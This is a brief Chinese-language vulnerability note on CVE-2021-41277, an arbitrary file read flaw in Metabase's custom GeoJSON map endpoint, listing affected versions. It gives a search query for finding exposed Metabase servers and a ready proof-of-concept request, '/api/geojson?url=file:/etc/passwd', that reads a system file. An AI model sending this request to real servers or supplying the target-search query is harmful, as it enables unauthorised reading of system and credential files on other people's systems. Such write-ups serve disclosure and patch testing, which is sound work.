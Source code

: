 # Metabase geojson 任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息

## 漏洞影响

```
metabase version < 0.40.5
metabase version >= 1.0.0, < 1.40.5
```

## 网络测绘

```
app="metabase"
```

## 漏洞复现

登录页面

![image-20220524152541900](images/202205241525945.png)

验证POC

```
/api/geojson?url=file:/etc/passwd
```

![image-20220524152721994](images/202205241527087.png)